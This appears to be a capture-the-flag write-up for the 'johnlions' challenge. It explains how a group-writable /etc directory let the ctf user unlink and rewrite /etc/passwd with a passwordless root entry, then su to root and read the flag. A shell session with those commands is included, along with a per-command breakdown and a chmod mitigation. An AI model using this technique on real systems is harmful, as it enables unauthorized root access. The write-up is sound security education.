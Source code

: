 ## johnlions ##
Writeup by @cyphar.

### tl;dr ###
The directory `/etc` had the mode `775`, meaning you could delete and replace
(or overwrite using `/bin/mv`) files used for authentication (such as
`/etc/passwd` and `/etc/shadow`) and thus escalate to root priviliges.

### Session ###
The following is the logs from a session where the above exploit was used to
read the target file (`/flag`).

```bash
$ cat /etc/passwd
root:x:0:1::/:
[...snip...]
ctf::7:3::/:
$ unlink /etc/passwd
$ cat - > /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ cat /etc/passwd
root::0:1::/:
ctf::7:3::/:
$ su
# cat /flag
9447{h4cking_like_its_1979}
#
```

### What just happened? ###
Here's a breakdown of the above key commands:

#### `rm /etc/passwd` ####

This command unlinks the file `/etc/passwd`, which is allowed because the `ctf`
user has `rwx` permissions for `/etc`. This is the first part of the exploit.
Even though the `ctf` user doesn't have `rwx` permissions for `/etc/passwd`,
`ctf` can still unlink the file because of how UNIX permissions work.

#### `cat - > /etc/passwd` ####

Because `ctf` has `rwx` permissions for `/etc`, `ctf` can create a new file
within `/etc`. This is the second part of the exploit. The net result is that
cyphar could create a new authentication file allowing him to get root.

#### `su` ####

Since we have overwritten `/etc/passwd`, you can log in as `root` with no
password (NOTE: the change of the prompt from `$` to `#` indicates that the
escalation to root was successful).

#### `cat /flag` ####

This just discloses the information inside the target file, revealing the flag
and completing the challenge.

### Notes ###

* Both cyphar and auscompgeek really hate `telnet` (no line editing and
  backspace doesn't work -- grrr)
* cyphar now appreciates just how much GNU has provided in terms of
  user-friendly tools and features.
* It was also possible to exploit `/usr/lib/atrun`, as
  [another team did](http://pastebin.com/raw.php?i=8jaPWTVT).

### Mitigation ###

`chmod 755 /etc`
